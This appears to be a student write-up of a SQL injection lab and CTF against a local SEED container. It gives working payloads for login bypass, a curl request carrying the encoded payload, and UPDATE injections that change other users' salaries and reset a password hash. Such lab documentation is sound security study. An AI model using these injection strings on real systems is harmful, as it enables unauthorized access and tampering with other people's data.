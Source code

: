 ## SETUP
- We need to add the line "10.9.0.5 ww.seed-server.com" inside the file /etc/hosts.<br>
- Afterwards we just need to build the container and run it.
- Now we need to find tge ID of the container with `dockps` and once we know the ID we run `docksh ID` to open a shell inside the container.

### Task 1
- On the containers shell we will start using all databases associated with the user root `mysql -u root -pdees`.
- Now that we're using mysql we'll need to load the sqllab_users database with `use sqllab_users`.
- To show the database we can run `show tables`.
- ![Task1](/Images/Week8/Task1.png "Task1")


### Task 2
#### 2.1
- In a browser we open www.seed-server.com and now we need to access the admin account.
- Inside the "unsafe home.php" file we could find a vulnerability in the way the query was made.
- INSERIR FOTO DA QUERY PARA DAR LOGIN
- Since we know the account name is "admin" we can use a very common sql injection `admin'-- ";`
- `admin` is the account name, `'` is used to end the input of that sql field, `-- ` will comment all sql code afterwards, `"` will end the string in php and `;` end the line in php.
- ![Task2-1-1](/Images/Week8/Task2-1-1.png "Task2-1-1")
- And the result is :
- ![Task2-1-2](/Images/Week8/Task2-1-2.png "Task2-1-2")

### 2.2

- We encoded the string `admin'-- "` in this website: https://www.urlencoder.org
- That string is equal to `admin%27--%20%22%3B`. 
- After that, we sent the command `curl 'www.seed-server.com/unsafe_home.php?username=admin%27--%20%22%3B&Password=11'` in the terminal.
- By doing that, we got access to the content.
- ![task2-2](/Images/Week8/task2-2.png "task2-2")



#### 2.3
- In the username field we inserted the following command `admin'; DELETE FROM credential WHERE name='Alice' ";#`
- We realized that, eventhough the syntax was correct, the following error was always present:
- ![task2-3-1](/Images/Week8/task2-3-1.png "task2-3-1")

- In kind of injection doesn't work since the API used in the .php file is my `mysqli`. The `querry` command only allows single querries.

- ![task2-3-2](/Images/Week8/task2-3-2.png "task2-3-2")


### Task 3
#### 3.1

- The following code to update the user info in the `unsafe_edit_backend.php` file is vulnerable
- ![task3-1-code](/Images/Week8/task3-1-code.png "task3-1-code")

- We inserted the command `9111', salary=50000 WHERE Name='Alice';-- ";` in the phone number section of the edit profile.
- ![task3-1-init](/Images/Week8/task3-1-init.png "task3-1-init")
- After that, we can verify Alice's salary has changed.
- ![task3-1](/Images/Week8/task3-1.png "task3-1")

### 3.2

- This task was almost equal to the previous one. The only thing that changed was the `Name=Boby`.

- The new command is `9111', salary=50000 WHERE Name='Boby';-- ";`

- After that, we can verify Boby's salary has changed.
- ![task3-2](/Images/Week8/task3-2.png "task3-2")

### 3.3

- The passwords on this server are encrypted via SHA1

- ![task3-3-init](/Images/Week8/task3-3-init.png "task3-3-init")



- We altered Boby's password to `7110eda4d09e062aa5e4a390b0a572ac0d2c0220`, which is the equivalent of `SHA1('1234')`.

- We used this command in the Phone number field: `9111', password='7110eda4d09e062aa5e4a390b0a572ac0d2c0220' WHERE Name='Boby';-- ";`

- ![task3-3-1](/Images/Week8/task3-3-1.png "task3-3-1")

- After that, we just logged out and logged in introducting the username `Boby` and the password `1234`.

- ![task3-3-2](/Images/Week8/task3-3-2.png "task3-3-2")

- Finally, we have access to Boby's profile

- ![task3-3-3](/Images/Week8/task3-3-3.png "task3-3-3")


## CTF 1
- Since we have access to the file index.php it's easier to notice the vulnerability inside the login query and try to control it.
- As done in the lab we'll use the `admin';--` as the username inside the website.
- `admin` is the account name, `'` is used to end the input of that sql field, `;` ends the line in php, `-- ` will comment all sql code afterwards.
- ![CTF8.1](/Images/Week8/CTF8.1.png "CTF8.1")
- And so we have the flag.

